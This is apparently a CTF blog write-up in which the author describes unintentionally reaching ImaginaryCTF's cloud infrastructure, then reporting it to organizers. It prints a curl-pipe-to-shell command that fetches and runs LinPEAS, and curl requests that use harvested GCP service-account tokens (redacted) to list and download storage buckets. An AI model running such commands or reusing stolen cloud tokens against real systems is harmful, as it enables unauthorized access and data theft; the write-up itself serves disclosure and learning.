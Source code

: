 ```yaml
---
title: "How I (accidentally) hacked ImaginaryCTF infra"
date: 2023-07-23
description: "\"this is what i get for writing an instancer from scratch the day before the ctf\" - Eth007"
tags: [writeups, ctfs]
---
```


FYI: I wrote this writeup super quickly so expect a lot of typos :) (I'm too lazy to go through and fix them)

For this years ImaginaryCTF I played with my friends at `les amateurs`. We ended up placing 12th out of 880 teams competing! There were lots of super interesting challenges and I look forward to competing in next year.

# Background
Just for fun, I had decided to look at the challenge `misc/obscured`

{{< zoom-img src="img/chall.png" >}}

When we connect to the challenge it would have us complete a PoW that would then give us a box to SSH into. Once I realized I have no clue what I'm doing, I decided to run a powerful Linux enumartion script (very skid), LinPEAS ([github](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)). This tool does a multitude of checks specifically looking for ways to escalate privileges. Since this box had access to the internet, we could easily run the command to download and run the script.

```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Running this script revealing some interesting information. Obviously it did reveal some information about the intended challenge (polkit) but what caught my eye the most was that the script detected this was running in Google Cloud. Once the script learned that, it did some extra enumeration to look for information related to GCP. It was able to find things like the project ID, project SSH keys, and lots more. The most interesting out of all of that was the access tokens for GCP service accounts.

{{< zoom-img src="img/service-accounts.png">}}

# GCP Enumeration

At first I was unsure if we could use this for anything, but after a bit of research I realized we can use the access tokens to make API requests about the GCP project. And looking at the scopes we had access to, I decided to look at the GCP storage to see if this is something worth reporting.

Using the [GCP Storage JSON API documentation](https://cloud.google.com/storage/docs/json_api/v1) as a reference, I crafted the following request to list the available buckets.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b?project=[REDACTED]' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

Running this command revealed two buckets. To list the contents of the buckets, we could make the following cURL request.

```bash
curl \
  'https://storage.googleapis.com/storage/v1/b/[BUCKET ID]/o' \
  --header 'Authorization: Bearer ya29.c.[REDACTED]' \
  --header 'Accept: application/json' \
  --compressed
```

One of them would end up being empty, however the other bucket would contain some pretty sensitive information. Each one of the object IDs looked something like this

`[REDACTED URL]/containers/images/sha256:[sha256 hash]/[some num]`

Noticing this I assumed this bucket contained all of the docker containers used for ImaginaryCTF. To double check, I tried downloading one of the files. Not exactly sure what the file was since it didn't look like a docker image, however it **did** contain a flag. 

# Conclusion
Once we found this, I immediately dm'd one of the organizers telling him what I found and gave all the information he asked for. We ended up not using the flag we found (since you shouldn't do that) and the challenge went down for maintenance to get fixed.

Thank you to Eth007 for handling the situation very well and not DQ'ing our team for this! Once again, this was an amazing CTF and I had high hopes that next year this problem won't happen again!

# Funny Screenshot
{{< zoom-img src="img/funny.png" >}}
{{< zoom-img src="img/eth-dumb.png" >}}
{{< zoom-img src="img/lmao.png" >}}

